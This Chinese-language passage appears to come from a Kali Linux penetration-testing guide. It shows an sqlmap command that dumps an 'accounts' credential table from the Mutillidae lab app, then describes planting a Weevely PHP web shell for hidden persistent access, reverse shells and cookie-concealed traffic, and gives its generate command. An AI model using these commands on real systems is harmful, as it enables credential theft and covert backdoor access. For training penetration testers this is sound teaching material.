 在列举的六个表格中，有一个标题为`accounts`。我们将尝试从表的这一部分转储数据。如果成功，如果进一步的 SQL 注入攻击失败，帐户凭据将允许我们返回数据库。要转储凭据，请使用以下命令：

```
root@kali:~# sqlmap -u 
  'http://192.168.75.129/mutillidae/index.php?page=user-
  info.php&username=admin&password=&user-info-php-submit-
  button=View+Account+Details' –D owasp10 – T accounts --dump 

```

![Injection attacks against databases](img/3121OS_09_22.jpg)

类似的攻击可用于数据库提取信用卡号。

# 通过 web 后门维护访问

一旦 web 服务器及其服务遭到破坏，确保安全访问是很重要的。这通常是通过一个 web 外壳来完成的——一个提供秘密后门访问并允许使用系统命令来促进攻击后活动的小程序。

Kali 附带了几个 web 外壳；这里我们将使用一个流行的 PHP web shell，名为**Weevely**。

Weevely 模拟 Telnet 会话，允许测试人员或攻击者利用 30 多个模块执行攻击后任务，包括以下任务：

*   浏览目标文件系统
*   与受损系统之间的文件传输
*   对常见的服务器错误配置执行审核
*   通过目标系统强制使用 SQL 帐户
*   生成反向 TCP 外壳
*   在已被破坏的远程系统上执行命令，即使应用了 PHP 安全限制

最后，Weevely 试图在 HTTP cookies 中隐藏通信以避免被检测。要创建 Weevely，请在命令提示符下发出以下命令：

```
root@kali:~# weevely generate <password> <path>

```
